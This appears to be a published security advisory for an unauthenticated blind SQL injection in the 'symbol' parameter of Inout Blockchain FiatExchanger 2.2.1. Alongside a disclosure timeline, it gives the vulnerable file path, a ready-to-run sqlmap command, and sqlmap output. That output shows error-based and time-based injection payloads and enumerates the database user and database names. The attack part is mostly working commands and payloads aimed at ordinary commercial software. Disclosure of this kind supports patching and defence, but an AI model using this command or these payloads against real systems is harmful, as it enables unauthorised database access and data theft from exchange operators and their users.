 # Information
```
Vulnerability Name  : Remote Blind SQL Injections in Inout Blockchain FiatExchanger
Product             : Inout Blockchain FiatExchanger
version             : 2.2.1
Date                : 2022-05-21
Vendor Site         : https://www.inoutscripts.com/products/inout-blockchain-fiatexchanger/
Exploit Detail      : https://github.com/bigb0x/CVEs/blob/main/Inout-Blockchain-FiatExchanger-221-sqli.md
CVE-Number          : In Progess
Exploit Author      : Mohamed N. Ali @MohamedNab1l
```
<br>

# Description
<br>

SQL injection attack has been discovered in Blockchain FiatExchanger v2.2.1 platform. This will allow remote non-authenticated attackers to inject SQL code. This could result in full information disclosure.
<br>

## Vulnerable Parameter: symbol (GET)

<br>

Vulnerability File: /application/third_party/Chart/TradingView/chart_content/master.php line 130

<br>

### Sqlmap command:
`
python sqlmap.py -u "http://http://vulnerable-host.com/application/third_party/Chart/TradingView/chart_content/master.php/history?from=1652675947&resolution=5&symbol=BTC-BCH" -p symbol --dbms=MySQL --banner --random-agent --current-db --dbs --current-user

`
<br>

### output:
`
[20:05:54] [INFO] fetched random HTTP User-Agent header value 'Opera/9.20(Windows NT 5.1; U; en)' from file '/root/sqlmap/data/txt/user-agents.txt'
[20:05:55] [INFO] testing connection to the target URL
[20:05:55] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:

Parameter: symbol (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: from=1652675947&resolution=5&symbol=BTC-BCH' AND (SELECT 1746 FROM(SELECT COUNT(*),CONCAT(0x71707a6b71,(SELECT (ELT(1746=1746,1))),0x7171627671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'hIKU'='hIKU

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: from=1652675947&resolution=5&symbol=BTC-BCH' AND (SELECT 4566 FROM (SELECT(SLEEP(5)))kVcR) AND 'JGrB'='JGrB

[20:05:55] [INFO] testing MySQL
[20:05:56] [INFO] confirming MySQL
[20:05:57] [INFO] the back-end DBMS is MySQL
[20:05:57] [INFO] fetching banner
[20:05:57] [INFO] resumed: '5.6.50'
web application technology: PHP 7.0.33
back-end DBMS: MySQL >= 5.0.0
banner: '5.6.50'
[20:05:57] [INFO] fetching current user
[20:05:57] [INFO] retrieved: 'root@localhost'
current user: 'root@localhost'
[20:05:57] [INFO] fetching current database
[20:05:57] [INFO] resumed: 'inout_blockchain_fiatexchanger_db'
current database: 'inout_blockchain_fiatexchanger_db'
[20:05:57] [INFO] fetching database names
[20:05:57] [INFO] resumed: 'information_schema'
[20:05:57] [INFO] resumed: 'inout_blockchain_fiatexchanger_addons_db'
[20:05:57] [INFO] resumed: 'inout_blockchain_fiatexchanger_cryptotrading_db'
[20:05:57] [INFO] resumed: 'inout_blockchain_fiatexchanger_db'
[20:05:57] [INFO] resumed: 'mysql'
[20:05:57] [INFO] resumed: 'performance_schema'
available databases [6]:
[*] information_schema
[*] inout_blockchain_fiatexchanger_addons_db
[*] inout_blockchain_fiatexchanger_cryptotrading_db
[*] inout_blockchain_fiatexchanger_db
[*] mysql
[*] performance_schema

`
<br>
<img src="./resources/Blockchain-FiatExchanger-221-sqlmap1.png">
<br>
<img src="./resources/Blockchain-FiatExchanger-221-sqlmap2.png">
<br>


## Timeline
```
2022-05-03: Discovered the bug
2022-05-03: Reported to vendor
2022-05-21: Advisory published
```

<br>

## Discovered by
```
Mohamed N. Ali
@MohamedNab1l
ali.mohamed@gmail.com

```
